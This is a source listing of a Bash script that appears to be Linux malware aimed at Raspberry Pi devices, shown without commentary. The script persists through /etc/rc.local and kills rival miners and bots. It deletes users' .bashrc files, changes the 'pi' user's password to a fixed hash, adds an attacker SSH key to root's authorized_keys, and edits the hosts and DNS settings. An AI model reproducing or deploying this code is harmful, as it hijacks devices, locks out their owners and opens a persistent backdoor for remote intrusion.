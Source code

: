
### File
 - Magic: plain ASCII
 - Language: Bash
 - Size: 4.65 KB

 ## Source Code

```bash
C0755 4745 nC9qy0wv
#!/bin/bash

MYSELF=`realpath $0`
DEBUG=/dev/null
echo $MYSELF >> $DEBUG

if [ "$EUID" -ne 0 ]
then 
  NEWMYSELF=`mktemp -u 'XXXXXXXX'`
  sudo cp $MYSELF /opt/$NEWMYSELF
  sudo sh -c "echo '#!/bin/sh -e' > /etc/rc.local"
  sudo sh -c "echo /opt/$NEWMYSELF >> /etc/rc.local"
  sudo sh -c "echo 'exit 0' >> /etc/rc.local"
  sleep 1
  sudo reboot
else
TMP1=`mktemp`
echo $TMP1 >> $DEBUG

killall bins.sh
killall minerd
killall node
killall nodejs
killall ktx-armv4l
killall ktx-i586
killall ktx-m68k
killall ktx-mips
killall ktx-mipsel
killall ktx-powerpc
killall ktx-sh4
killall ktx-sparc
killall arm5
killall zmap
killall kaiten
killall perl

echo "127.0.0.1 bins.deutschland-zahlung.eu" >> /etc/hosts
rm -rf /root/.bashrc
rm -rf /home/pi/.bashrc

usermod -p \$6\$vGkGPKUr\$heqvOhUzvbQ66Nb0JGCijh/81sG1WACcZgzPn8A0Wn58hHXWqy5yOgTlYJEbOjhkHD0MRsAkfJgjU/ioCYDeR1 pi

mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D6s4J0L7XV2kep0rNzgY1S1IdE8HDef7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B"  >> /root/.ssh/authorized_keys

echo "nameserver 8.8.8.8" >> /etc/resolv.conf
rm -rf /tmp/ktx*
rm -rf /tmp/cpuminer-multi
```